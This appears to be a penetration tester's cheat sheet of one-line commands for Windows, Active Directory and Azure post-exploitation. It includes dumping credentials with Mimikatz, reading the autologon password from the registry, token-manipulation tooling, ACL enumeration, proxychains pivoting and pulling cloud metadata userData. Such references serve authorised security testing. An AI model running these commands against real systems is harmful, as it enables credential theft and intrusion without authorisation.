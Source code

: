xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share ***RDP***

$ErrorActionPreference= 'silentlycontinue' ***Hide Error in PowerShell***

Get-UserProperty -Properties logoncount | Where logoncount -ne 0 ***Filtering Powershell objects***

Get-ObjectAcl -SamAccountName Control174User –ResolveGUIDs | Where-Object {$_.IdentityReference -like "RDP*"} ***Filtering Powershell objects***

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "DefaultPassword" ***Creds***

Invoke-Mimikatz -DumpCreds/-DumpCerts

script -qc /bin/bash /dev/null

Service Ticket Combos - https://adsecurity.org/?p=2011

proxychains net time set -S 172.16.3.5

(get-azvm | select -ExpandProperty networkprofile).NetworkInterfaces.id ***Expand Property***

$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData)) 

